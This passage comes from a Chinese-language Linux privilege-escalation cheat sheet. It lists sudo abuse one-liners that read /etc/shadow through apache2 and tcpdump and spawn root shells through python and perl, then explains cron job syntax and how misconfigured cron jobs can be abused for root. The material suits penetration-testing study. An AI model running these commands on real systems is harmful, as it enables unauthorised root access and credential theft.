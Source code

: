 apache
Default
仅可查看文件，不能弹 shell：
apache2 -f /etc/shadow

tcpdump
Default
echo $’id\ncat /etc/shadow’ > /tmp/.testchmod +x /tmp/.testsudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root

python/perl/ruby/lua/php/etc

python
Default
python -c “import os;os.system(‘/bin/bash’)”

perl
Default
exec “/bin/bash”;

利用定时任务（Cron jobs）

如果未正确配置Cronjob，则可以利用该Cronjob获得root特权。
1.Cronjob中是否有可写的脚本或二进制文件？
2.我们可以覆盖cron文件本身吗？
3.cron.d目录可写吗？

Cronjob通常以root特权运行。如果我们可以成功篡改cronjob中定义的任何脚本或二进制文件，那么我们可以以root特权执行任意代码。

什么是Cronjob？

Cron Jobs被用于通过在服务器上的特定日期和时间执行命令来安排任务。它们最常用于sysadmin任务，如备份或清理/tmp/目录等。Cron这个词来自crontab，它存在于/etc目录中。
例如：在crontab内部，我们可以添加以下条目，以每1小时自动打印一次apache错误日志。
Default
1 0 * * * printf “” > /var/log/apache/error_log

前五个数字值表示执行cronjob的时间。现在让我们了解五个数字值。

    分钟–第一个值表示介于0到59之间的分钟范围，而*表示任何分钟。
    小时–第二个值表示小时范围在0到24之间，*表示任何小时。
    月中的某天–第三个值表示月中的某日，范围是1到31，*表示任何一天。
    月–第四个值表示1到12之间的月份范围，*表示任何月份。
    星期几–第五个值表示从星期天开始的星期几，介于0到6之间，*表示星期几。

简而言之呢，crontab就是一个自定义定时器。

Cron特权升级概述

cron守护程序计划在指定的日期和时间运行命令。它与特定用户一起运行命令。因此，我们可以尝试滥用它来实现特权升级。
滥用cron的一个好方法是，
1.检查cron运行的脚本的文件权限。如果权限设置不正确，则攻击者可能会覆盖文件并轻松获取cron中设置的用户权限。
2.另一种方法是使用通配符技巧

Cron**信息收集**
一些基本命令收集一些线索，以使用错误配置的cron实现特权升级。
Default
命令	结果
crontab -l	显示当前用户的cron
ls -la /etc/cron*	显示计划的作业概述
